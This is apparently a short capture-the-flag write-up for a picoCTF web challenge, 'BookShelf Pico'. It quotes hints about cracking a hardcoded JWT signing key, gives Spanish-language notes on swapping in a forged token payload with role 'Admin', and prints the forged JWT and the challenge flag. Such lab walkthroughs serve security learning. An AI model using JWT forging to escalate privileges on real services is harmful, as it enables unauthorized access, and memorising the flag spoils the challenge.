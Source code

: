 #### Description

BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Additional details will be available after launching your challenge instance.

#### Hints 
- Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
-  The 'role' and 'userId' fields in the JWT can be of interest to you!
- The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
- Upgrade your 'role' with the _new_ (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.


```
sacamos los datos del request headers, que sera en la parte de autorizacion, copiando esos datos obtenemos nuestra información del token que lo remplazaremos con lo sig:

token-payload:{ "role": "Admin", "iss": "bookshelf", "exp": 1745309667, "iat": 1744704867, "userId": 2, "email": "admin" }

auth-token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NDUyMTU1NjUsImlhdCI6MTc0NDYxMDc2NSwidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.oAdI8IUyD1vlGAPkJDyAFutarIIhK0Q1aoLXD_6GaJQ

reat job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_7745dc02}

```

